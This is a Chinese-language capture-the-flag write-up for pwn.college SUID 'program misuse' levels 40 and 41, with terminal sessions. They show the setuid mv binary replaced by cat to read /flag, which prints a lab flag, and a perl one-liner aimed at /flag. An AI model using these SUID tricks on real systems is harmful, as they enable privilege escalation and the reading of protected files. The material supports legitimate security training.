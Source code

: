 ## level40 Lets you get the flag by doing tricks with permissions!

```
hacker@program-misuse-level-40:~$ sh file.sh
Welcome to ./babysuid_level40!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/mv.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level40) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/mv!
```
这题，十分的离谱啊，完全不会做，看的答案，实在是太骚气了，使用mv把cat覆盖mv
```
hacker@program-misuse-level-40:~$ mv /usr/bin/cat /usr/bin/mv
hacker@program-misuse-level-40:~$ sh file.sh
Welcome to ./babysuid_level40!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/mv.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level40) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/mv!
hacker@program-misuse-level-40:~$ mv /flag
pwn.college{g9AYY8a5E2v4R8jr_434HNFYEL3.0lM4EDL2QjMyMzW}
hacker@program-misuse-level-40:~$
```
///@TODO:这个值得记录一下！

这个题让我想起了一个看到的内容：

>如果我们在命令之中不使用管道而使用重定向（这是新手可能会犯的错误）那么前一个输出会重写到后面的命令之中造成混乱，比如 cat /flag > more

## level41 Lets you read the flag because they let you program anything!

```
hacker@program-misuse-level-41:~$ sh file.sh
Welcome to ./babysuid_level41!

This challenge is part of a series of programs that
let you read the flag because they let you program anything.

I just set the SUID bit on /usr/bin/perl.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level41) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/perl!
```
`perl`是个脚本解释器，
```
hacker@program-misuse-level-41:~$ perl -ne "print if pwn.college" /flag
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = (unset),
        LC_CTYPE = "C.UTF-8",
        LANG = "en_US.UTF-8"
```